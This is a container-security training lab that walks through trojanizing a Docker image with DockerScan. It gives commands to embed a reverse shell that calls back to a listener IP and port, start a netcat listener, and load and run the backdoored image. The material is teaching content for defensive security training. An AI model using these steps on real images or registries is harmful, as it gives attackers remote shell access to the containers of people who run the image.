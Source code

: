 # **Trojanized Docker Images - DockerScan**

---

> #### A docker image can be trojanized with a tool called `DockerScan`. When a trojanized container is launched, the attacker can get a `reverse-shell` on-to the container

### **Lab Image : Containers**

---

* Step 1: Navigate to the `Trojanized Docker Images` directory

```commandline
cd /root/container-training/Container/Trojanized-Docker-Image/
```

* Step 2: Pull and save the docker image that is to be trojanized

```commandline
docker pull abhaybhargav/vul_flask && docker save abhaybhargav/vul_flask:latest -o abhaybhargav-vul_flask
```

---

#### Step 2:


* Fetch the IP of the provisioned server

```commandline
serverip
```

* Trojanize the saved docker to create a `.tar` file

> **EXAMPLE**: `dockerscan image modify trojanize abhaybhargav-vul_flask -l 104.1.1.1 -p 1337 -o abhaybhargav-vul_flask-trojanized`

```commandline
dockerscan image modify trojanize abhaybhargav-vul_flask -l $(serverip) -p 1337 -o abhaybhargav-vul_flask-trojanized
```

---

#### Step 3:

* Once the command on **Step 2** has been run, a `netcat` command is returned. Run the command in another tab or use `tmux` to split the terminal.

> **EXAMPLE**: `nc -v -k -l 104.1.1.1 1337`

```commandline
nc -v -k -l $(serverip) 1337
```

* Load the trojanized `.tar` docker file

```commandline
docker load -i abhaybhargav-vul_flask-trojanized.tar
```

---

#### Step 4:

* Confirm that the trojanized image has been loaded

```commandline
docker images
```

* When the trojanized docker is run, the listener should have reverse-shell access to the container

```commandline
docker run -d -p 5000:5000 abhaybhargav/vul_flask
```

---

#### *Teardown*:

* Stop/Close the `reverse-shell` tab

* Stop all containers

```commandline
clean-docker
```

```commandline
docker rmi abhaybhargav/vul_flask
```

---

### Reading Material/References:

* https://github.com/cr0hn/dockerscan
